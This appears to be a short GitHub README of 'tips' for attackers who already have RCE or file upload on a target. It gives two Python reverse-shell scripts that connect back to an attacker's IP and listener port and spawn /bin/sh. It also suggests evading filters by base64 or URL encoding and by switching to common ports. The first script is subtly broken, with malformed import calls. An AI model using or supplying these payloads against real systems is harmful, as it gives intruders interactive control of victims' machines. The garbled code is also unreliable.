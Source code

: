 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 3. 
4. Encode your script using url encode 

## Script 1 

```
socket=_import("socket");os=import("os");pty=import_("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT LISTENER>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

## Script 2

```
import socket
import subprocess
import os

def back_connect(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    os.dup2(s.fileno(), 0)  
    os.dup2(s.fileno(), 1)  
    os.dup2(s.fileno(), 2)  
    
    subprocess.call(["/bin/sh", "-i"])

host = "<YOUR IP>"  
port = <YOUR LISTENER PORT>           

back_connect(host, port)
```
